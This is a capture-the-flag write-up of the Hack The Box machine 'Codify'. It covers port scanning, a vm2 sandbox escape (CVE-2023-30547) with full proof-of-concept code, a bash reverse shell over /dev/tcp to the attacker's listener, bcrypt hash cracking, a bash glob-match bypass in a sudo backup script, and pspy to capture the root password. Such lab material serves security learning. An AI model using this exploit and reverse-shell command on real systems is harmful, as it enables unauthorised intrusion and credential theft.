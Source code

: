 ![codify](Codify.png)

# Summary

## Nmap
As always I start out with an nmap scan, `-sC` to run default enumeration scripts, `-sV` to enumerate version, and `-v` to list open port as they're found
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Codify
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
I find 3 ports open, SSH on port 22, HTTP on port 80, and the Node.js framework on port 3000. Port 80 first comes back with the line `Did not follow redirect to http://codify.htb`, so I add `codify.htb` to my `/etc/hosts` file and rerun nmap on port 80, as certain scripts will not run properly otherwise.
### HTTP on port 80
The site holds a sandbox to test out Node.js code online. The site states that the code is run in a sandbox to prevent access to the underlying system. Makes sense. on `/limitations` there's a pretty restrictive list of specifically banned and allowed modules.

On the `/about` page is a line that states *"The [vm2](https://github.com/patriksimek/vm2/releases/tag/3.9.16) library is a widely used and trusted tool for sandboxing JavaScript"* The hyperlink in vm2 points to version 3.9.16. I search for "vm2 3.9.16" exploit to see if there are any public exploits in the sites sandboxing technology. And what do you know! There sure is. [CVE-2023-30574](https://nvd.nist.gov/vuln/detail/CVE-2023-30547) is specifically for sandbox escape in the vm2 library up to version 3.9.16. We're in luck.

I find [this proof of concept](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244) from the original researcher that allows me to get code execution on the site. I can paste in the code, and add my commands to the section after `execSync`, and get code execution in the underlying system.
```javascript
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('<COMMAND>');
}
`

console.log(vm.run(code));
```
I use the RCE to send a bash reverse shell
```node
const {VM} = require("vm2");
const vm = new VM();
<...SNIP...>
().mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/<MY IP/<PORT> 0>&1"');
}
<...SNIP...>
```
I set up a netcat listener and catch the reverse shell
```bash
nc -lvnp 9001
```
I use the [python pty trick](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell) to improve my shell.
```bash
┌──(kali㉿Kali)──[22:44:18]──[~/htb/Machines/Codify]
└─$ nc -lvnp 9001
<...SNIP...>
svc@codify:~$ python3 -c 'import pty;pty.spawn("bash")'
python3 -c 'import pty;pty.spawn("bash")'
svc@codify:~$ ^Z
zsh: suspended  nc -lvnp 9001
                                                                                                                              
┌──(kali㉿Kali)──[22:46:58]──[~/htb/Machines/Codify]
└─$ stty -a              
speed 38400 baud; rows 69; columns 126; line = 0;
<...SNIP...>
                                                                                                                              
┌──(kali㉿Kali)──[22:47:01]──[~/htb/Machines/Codify]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 9001

svc@codify:~$ stty rows 69 columns 126 && export TERM=xterm

```
Once on the box, I find a `tickets.db` file in `/var/www/contact`. I run `strings` on it, and in the output I see what looks quite like a password hash for the user `joshua`. `Joshua`  is also the user on the box. Hopefully I can crack the hash and hopefully joshua reused their password for their user account
```bash
svc@codify:/var/www/contact$ strings tickets.db 
<...SNIP...>
indexsqlite_autoindex_users_1users
joshua$2a$12$<REDACTED>
joshua
<...SNIP...>
```
I copy the hash starting from the first `$` and use `hashid` to identify the hash type and hashcat mode, which comes back as bcrypt and mode 3200
```bash
┌──(clayton㉿Nucleus)──[22:53:00]──[~/hash]
└─$ hashid -m '<REDACTED>'               
Analyzing '<REDACTED'
[+] Blowfish(OpenBSD) [Hashcat Mode: 3200]
[+] Woltlab Burning Board 4.x 
[+] bcrypt [Hashcat Mode: 3200]
```
The hash cracks quickly in hashcat. Always remember to crack hashes on your host system, not the VM, as that will speed up the process considerably.
## Root Shell
With `Joshua's` password in hand, I switch over to his account and run `sudo -l`.
```bash
svc@codify:/var/www/contact$ su joshua
Password: 
joshua@codify:/var/www/contact$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```
Joshua can use `sudo` to run `/opt/scripts/mysql-backup.sh`
```bash
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```
The password check in this script can be bypassed by passing `*` as the password. This is because in bash, when you use `==` inside `[[ ]]`, bash performs pattern matching where the string on the right side (our user input) is considered a pattern. This means `*` is considered a glob pattern. The `*` in glob patterns matches zero or more characters. So when a user simply enters `*` as the password, it matches any string of any length on the left handed side, including the actual password stored in `$DB_PASS`. To fix this vulnerability, the script should use `=` instead of `==` for string comparison. That way, the user input is treated as literal string, rather than a pattern.

After this, the script takes the actual password from `/root/.creds` and passes it to the `mysql` command to connect to the database. With a tool like [pspy]() I should actually be able to see the mysql command get passed, and see the true password that get's used. That will buy me access to the MySQL database, and if I'm lucky, the password could be reused for the root account.

I download pspy and host it in a python webserver on my box, I then `wget` from the victim, give it execute permissions, and run it with a short interval of 10 milliseconds, that means it will check running processes every 10ms. Pspy normally runs with an interval on 100ms, but I just want to make sure I catch it, as the command will probably go b very quickly.
```bash
# On my Attack box, download pspy and host it on simple http server
┌──(kali㉿Kali)──[23:11:13]──[~/htb/Machines/Codify/www]
└─$ wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64 -O pspy
<...SNIP...>
pspy                            100%[======================================================>]   2.96M  10.3MB/s    in 0.3s    
<...SNIP...>
                                                                                                                               
┌──(kali㉿Kali)──[23:11:19]──[~/htb/Machines/Codify/www]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

# On victim box, download pspy from my attack box, give execute permissions, and run it
joshua@codify:/dev/shm$ wget 10.10.15.34/pspy
<...SNIP...>
pspy                            100%[=====================================================>]   
<...SNIP...>
joshua@codify:/dev/shm$ chmod +x pspy
joshua@codify:/dev/shm$ ./pspy -i 10
```
Once pspy is running, I log in to SSH again from another terminal, run `sudo /opt/scripts/mysql-backup.sh`. I see the password get used on the first try, but if you don't, just try running the script more.

![pspy](Sun-26-2023_23-20.png)

I test out this password for the root user and sure enough! I get a shell as root and am able to read the root flag.
```bash
root@codify:/home/joshua# cat /root/root.txt
d16e657-------------------------
```
